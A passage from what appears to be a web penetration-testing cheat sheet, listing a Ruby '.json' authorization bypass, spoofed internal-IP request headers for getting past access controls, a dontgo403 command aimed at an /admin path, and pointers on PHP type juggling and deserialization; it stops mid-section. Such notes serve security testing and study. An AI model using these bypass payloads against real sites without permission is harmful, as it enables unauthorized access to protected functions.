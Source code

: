 #### Others
-> add .json if in ruby
```
/user/1029 # Unauthorized
/user/1029.json # Authorized
```

### Spoofing Internal IP in Request Header
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
Forwarded-For: 127.0.0.1
Forwarded-For-Ip: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/headers_internal_bypass.txt

### 403 Bypass 
```
./dontgo403 -u http://site.com/admin
```
https://github.com/devploit/dontgo403

## Type Juggling and Hash Collision
https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf  
https://github.com/JohnHammond/ctf-katana#php

## Insecure Deserialization 
-> Binary (Java, C++, etc ...)  
-> Human-Readable (XML, JSON, SOAP, YAML, PHP)

### PHP Deserialization
#### PHP - Method Serialization:
-> serialize()  
-> unserialize()  

#### Magic Methods:
-> __construct()  
-> __destruct()  
-> __wakeup()  

#### Class Properties

